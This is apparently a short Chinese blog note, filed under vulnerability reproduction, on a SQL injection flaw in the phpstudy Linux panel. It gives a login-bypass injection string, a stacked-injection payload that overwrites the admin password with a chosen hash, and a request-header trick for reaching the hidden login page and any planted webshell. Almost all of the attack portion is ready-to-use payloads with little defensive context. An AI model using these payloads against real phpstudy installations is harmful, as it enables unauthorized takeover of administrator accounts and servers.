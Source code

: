 ```yaml
---
layout: post
title: phpstudy-linux面板(小皮面板)存在SQL注入漏洞
abbrlink: 3be46a22ba8a49dc85eb45246246beb2
tags: []
categories:
  - 漏洞挖掘与复现
  - web应用
  - phpstudy
date: 1735134971958
updated: 1735134971959
---
```


```python


https://mp.weixin.qq.com/s/DCSHSF7hQdDtYTmmsPnFEQ
https://www.bilibili.com/video/BV1Yc411j7TP/
```

```python
万能密码
admin' and 1=1 #
万能密码默认使得程序直接崩溃，无法直接利用

堆叠注入
admin';update admins set password='c464514e8891b00a0cf575afc4248f9f';--

利用难点
寻找后台地址
X-Requested-With: XMLHttpRequest
请求头带上上述参数即可访问面 板登录页面，无需知道路径，若写webshell，则访问webshell也同样需要带上这个请求头
```

> 更新: 2023-03-26 00:35:15\
> 原文: <https://www.yuque.com/yuqueyonghuwrqimt/vtxvff/yk7pv6shet6ao683>

